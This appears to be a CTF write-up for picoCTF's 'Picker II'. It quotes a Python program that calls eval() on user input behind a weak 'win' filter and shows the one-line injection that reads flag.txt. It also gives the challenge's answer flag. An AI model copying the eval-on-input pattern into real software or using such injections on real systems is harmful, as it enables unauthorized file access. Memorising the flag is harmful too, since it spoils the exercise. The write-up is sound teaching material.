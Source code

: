 
<!DOCTYPE html>
<html>
<body>
<h1>Picker II- picoGym Exclusive</h1>

<h2>Challenge Description</h2>
<p> AUTHOR: LT 'SYREAL' JONES

Description
Can you figure out how this program works to get the flag?
Additional details will be available after launching your challenge instance.
------------------------------------------------------------------------------
Connect to the program with netcat:
$ nc saturn.picoctf.net 56676
The program's source code can be downloaded <a href="https://artifacts.picoctf.net/c/522/picker-II.py">here</a>.

</p>

<h2>Solution Approach</h2>
<p>Here are the steps we took to solve the challenge:</p>
<ol>
we download source and see is like <a href="https://phantom1ss.github.io/blog/2024/practice/picoctf/PickerI/writeup1.md">picker I </a>except that it has filter for prevent input win and get flag
<pre>
def filter(user_input):
if 'win' in user_input:
return False
return True


while(True):
try:
user_input = input('==> ')
if( filter(user_input) ):
eval(user_input + '()')
else:
print('Illegal input')
except Exception as e:
print(e)
</pre>
but like previous code can have input print('hi') all input should be like functions and can't have input like cat flag.txt
some inputs are like this<pre>
==> cat flag.txt
invalid syntax (<string>, line 1)
==> print('hi')
hi
'NoneType' object is not callable
==> exit
.....
</pre>
in hint say see what win function do.see win function code
<pre>
def win():
# This line will not work locally unless you create your own 'flag.txt' in
# the same directory as this script
flag = open('flag.txt', 'r').read()
#flag = flag[:-1]
flag = flag.strip()
str_flag = ''
for c in flag:
str_flag += str(hex(ord(c))) + ' '
print(str_flag)
</pre>
and this code that is like function and print flag is interested
<pre>
flag=open('flag.txt', 'r').read()
</pre>
so for print flag just input this and get flag
<pre>
==> print(open('flag.txt', 'r').read())
</pre>

</ol>
<br>
<h2>Flag</h2>
<p class="flag">picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}

<h2>Conclusion</h2>
<p>this is a very easy challenge for work on reverse engineering with python and bypass filter input</p>
</body>
</html>








